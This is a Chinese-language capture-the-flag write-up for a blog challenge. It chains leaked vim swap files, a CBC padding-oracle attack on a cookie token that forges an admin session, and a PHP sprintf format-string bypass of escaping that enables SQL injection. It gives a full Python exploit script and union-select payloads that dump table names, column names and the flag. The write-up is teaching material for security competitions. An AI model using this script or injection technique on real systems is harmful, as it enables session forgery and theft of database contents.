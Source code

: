 ### WriteUp

进入题目后可以知道这是一个博客系统，那猜测应该会有后台，扫一下目录或者猜一下可以知道存在`login.php, admin.php`两个文件，访问`admin.php`可以发现有权限控制，访问`login.php`是一个登录界面。

通过尝试可以发现如果随便输入账号密码的话页面返回是`Login failed.`，但是账号密码都输入`admin`的话会跳转到`admin.php`，猜测这里应该是弱口令，只是除了密码以外还有其他的验证方式。

如果扫描字典够强大的话可以扫到`login.php, admin.php`都存在备份文件：`.login.php.swp, .admin.php.swp`

下载备份文件`.login.php.swp`得到源码，源码关键的部分：

```
function get_identity(){
	global $id;
    $token = get_random_token();
    $c = openssl_encrypt($id, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token);
    $_SESSION['id'] = base64_encode($c);
    setcookie("token", base64_encode($token));
    if($id==='admin'){
    	$_SESSION['isadmin'] = 1;
    }else{
    	$_SESSION['isadmin'] = 0;
    }
}

function test_identity(){
    if (isset($_SESSION['id'])) {
        $c = base64_decode($_SESSION['id']);
        $token = base64_decode($_COOKIE["token"]);
        if($u = openssl_decrypt($c, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $token)){
            if ($u === 'admin') {
                $_SESSION['isadmin'] = 1;
                return 1;
            }
        }else{
            die("Error!");
        } 
    }
    return 0;
}
```
可以看到在session中也做了身份验证，但是由于加密模式是`aes-128-cbc`，且`$token`在cookie里，可控，所以这里可以进行**Pading Oracle Attack**，通过修改`$token`可以把`$_SESSION['isadmin']`改为1（如果不清楚**Pading Oracle Attack**的原理的话可以看一下我写过的一篇[博客](http://f1sh.site/2017/08/04/%E5%88%9D%E5%AD%A6padding-oracle-attack/)），这样就成功登录进了`admin.php`。

通过下载`.admin.php.swp`可以得到`admin.php`的源码，发现里面存在数据库操作
```
if(isset($_GET['id'])){
	$id = mysql_real_escape_string($_GET['id']);
	if(isset($_GET['title'])){
		$title = mysql_real_escape_string($_GET['title']);
		$title = sprintf("AND title='%s'", $title);
	}else{
		$title = '';
	}
	$sql = sprintf("SELECT * FROM article WHERE id='%s' $title", $id);
	$result = mysql_query($sql,$con);
	$row = mysql_fetch_array($result);
	if(isset($row['title'])&&isset($row['content'])){
		echo "<h1>".$row['title']."</h1><br>".$row['content'];
		die();
	}else{
		die("This article does not exist.");
	}
```
乍看之下似乎有`mysql_real_escape_string()`所以无法进行注入，但实际上这里可以利用PHP格式化字符串的漏洞。

在PHP的`sprintf`这个函数中`%\`会被当成一个格式化字符串，如图
![](https://i.imgur.com/cSXxM1a.jpg)
可以看到`%\`和`%y`一样被当做了一个不存在的类型的格式化字符串，所以输出为空

所以利用这个原理，我们可以传入`title=%' or 1#`，此时因为`mysql_real_escape_string()`的存在单引号前会被加上一个`\`，那么最后拼接到语句里就是
```
sprintf("SELECT * FROM article WHERE id='%s' AND title='%\' or 1#'", $id);
```
这样`%`就会吃掉后面的`\`组成一个格式化字符串，单引号就成功逃逸了出来。

但是只是这样的话还是会报错参数不足，因为这条代码里有两个格式化字符串但是只有一个参数。不过PHP的格式化字符串还有另一种表示方法`%1$s`，其中`%`后面的数字就表示引用第几个参数，`$`后面是格式化字符串的类型，如图
![](https://i.imgur.com/zIM5IBA.jpg)

所以我们传入`title=%1$' or 1#`，经过转义最后拼接到语句里就是
```
sprintf("SELECT * FROM article WHERE id='%s' AND title='%1$\' or 1#'", $id);
```
这样title那里引用的也是第一个参数`$id`，就不会报参数不足的错了

具体的原理可以看[这篇文章](https://paper.seebug.org/386/)

所以最终SQL注入的payload就是：`?id=0&title=%251%24'%20union%20select%201%2C2%2C3%23`

整个题目可由一个脚本跑出最终flag：
```
#-*- coding:utf-8 -*-

import requests
import base64

url = 'http://111.231.111.54/login.php'
N = 16

def inject_token(token):
    cookie = {"token": token}
    result = s.get(url, cookies = cookie)
    return result

def xor(a, b):
    return "".join([chr(ord(a[i]) ^ ord(b[i%len(b)])) for i in xrange(len(a))])

def pad(string, N):
    l = len(string)
    if l != N:
        return string + chr(N-l) * (N-l)

def padding_oracle(N):
    get = ""
    for i in xrange(1, N):
        for j in xrange(0, 256):
            padding = xor(get, chr(i) * (i - 1))
            c=chr(0) * (16 - i) + chr(j) + padding
            print c.encode('hex')
            result = inject_token(base64.b64encode(c))
            if "<html>" in result.content:
                print result.content
                get = chr(j^i) + get
                break
    return get

data={'username': "admin", 'password': 'admin'}
while 1:
    s = requests.session()
    cookies = s.post(url, data = data, allow_redirects = False).headers['Set-Cookie'].split(',') #获得session和token
    session = cookies[0].split(";")[0][10:]
    token = cookies[1][6:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')
    middle1 = padding_oracle(N)
    print "\n"
    if(len(middle1) + 1 == 16):
        for i in xrange(0, 256):
            middle = chr(i) + middle1   #padding_oracle只能得到15位，爆破第一位
            print "session: " + session
            print "token: " + token
            print "middle: " + base64.b64encode(middle)
            plaintext = xor(middle, token);
            print "plaintext: " + plaintext
            des = pad('admin', N)
            tmp = ""
            print "padtext: " + base64.b64encode(des)
            for i in xrange(16):
                tmp += chr(ord(token[i]) ^ ord(plaintext[i]) ^ ord(des[i]))
            print "inject_token: " + base64.b64encode(tmp)
            result = inject_token(base64.b64encode(tmp))
            if "css/login.css" not in result.content:
                #payload = "%1$' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#"  #注表名
                #payload = "%1$' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x4b4559#"    #注列名
                payload = "%1$' union select 1,2,f14g from `key`#" #注字段
                params = {'id': '0', 'title': payload}
                r = s.get("http://111.231.111.54/admin.php", params = params)
                print r.content
                print "success"
                exit()
```
注入时也有一个小坑，`key`这个表名是MYSQL保留字，我们把它当做表名带入查询时必须用反引号包起来，不然就会报语法错误而返回不了我们想要的结果。
